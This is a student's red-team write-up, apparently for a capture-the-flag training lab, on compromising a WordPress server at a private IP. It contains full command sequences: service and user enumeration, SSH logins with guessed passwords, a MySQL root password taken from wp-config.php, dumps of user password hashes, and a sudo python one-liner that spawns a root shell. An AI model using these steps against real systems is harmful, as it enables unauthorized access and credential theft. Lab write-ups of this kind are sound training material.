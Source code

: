# Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#exposed-services)
- [Critical Vulnerabilities](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#critical-vulnerabilities)
- [Exploitation](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#exploitation)

## Exposed Services
Nmap scan results for 192.168.1.110 reveal the below services and OS details:  
~~~
nmap -sV 192.168.1.110  
~~~

![red111](https://user-images.githubusercontent.com/32025331/155897831-3ed2d82f-ea06-4b2b-88a5-ca45a22de921.PNG)   

This scan identifies the services below as potential points of entry:  
  
- OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)  
- Apache httpd 2.4.10 ((Debian))  

## Critical Vulnerabilities

The following vulnerabilities were identified:

**CWE-521 - Weak server password**
- Server does not require strong user passwords, making it vulnerable to brute force attacks. 
- *Severity:* High

**CWE-916 - Unsalted hashed passwords**
- Hashed passwords that are unsalted can be easily cracked using free softare like john the ripper.
- *Severity:* Medium  
**CWE-79 - Unpatched WordPress software (Version 4.8.18)**
- 
- 
 ## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


### flag1{b9bbcb33e11b80be759c4e844862482d}
Tools used: dirb, wpscan  
- Using dirb we were able to find a wordpress page: 192.168.1.110/wordpress  

![red10](https://user-images.githubusercontent.com/32025331/155897106-083e1297-c5d6-490f-af59-1ac251500554.PNG)


- From there we ran wpscan: 
~~~
wpscan -–url http://192.168.1.110/wordpress --wp-content-dir -at -eu
~~~
![red13](https://user-images.githubusercontent.com/32025331/155897592-cb46a654-efc7-48f6-a220-833e3841df88.PNG)  

We then found two login names: Steven and Michael  
![red14](https://user-images.githubusercontent.com/32025331/155897593-ce8c5a5b-778a-486d-9d9d-c38249113aa4.PNG)  

By sheer luck, we guessed the password without brute force:  
~~~
ssh michael@192.168.1.110
Password: michael
cd ../../var/www/html
grep -RE flag1
~~~
![red222](https://user-images.githubusercontent.com/32025331/155898152-706f9b4c-607d-4a1a-83f1-742a2217463d.PNG)  
  
  
**flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**  
Using the same credentials, we SSH into the webserver:
~~~ 
ssh michael@192.168.1.110
Password: michael
cd ../../var/www/
grep -RE flag2
~~~
![red15](https://user-images.githubusercontent.com/32025331/155897666-7187d4ef-e7dc-4231-985f-f4c87a644dfa.PNG)


**flag3{afc01ab56b50591e7dccf93122770cd2}**  
**flag4{715dea6c055b9fe3337544932f2941ce}**  
Tools used: SSH, MySQL  
~~~
ssh michael@192.168.1.110
Password: michael
cd /var/www/html/wordpress
nano wp-config.php  
~~~

![red444](https://user-images.githubusercontent.com/32025331/155898231-ca6b815e-0a07-46dd-a844-b6eaf18d26cb.PNG)  
Within wp-config.php we were able to find credentials to a MySQL database.
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select post_content from wp_posts;
~~~
![red443](https://user-images.githubusercontent.com/32025331/155898281-266c6765-2025-49e4-96d2-a7b4f359dbd8.PNG)  
  
**Flag 4 from Steven’s account**  
- Tools used: SSH, MySQL, johntheripper  
- Using the MySQL credentials from before:  
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select user_login, user_pass from wp_users;
~~~  
![red555](https://user-images.githubusercontent.com/32025331/155898316-716315ab-4684-4dbe-bbad-8c096ebbd92a.PNG)  
We found the hashed passwords within the wp_users table.  
Exit back out to Kali. From here we can use John the Ripper:  

SSH into the webserver using Steven’s credentials:  
~~~
Ssh steven@192.168.1.110
Password: pink84
~~~
Now we run a python exploit:
~~~
sudo /usr/bin/python -c 'import os;os.system("/bin/sh")'
cd root
cat flag4.txt
~~~
[picture]
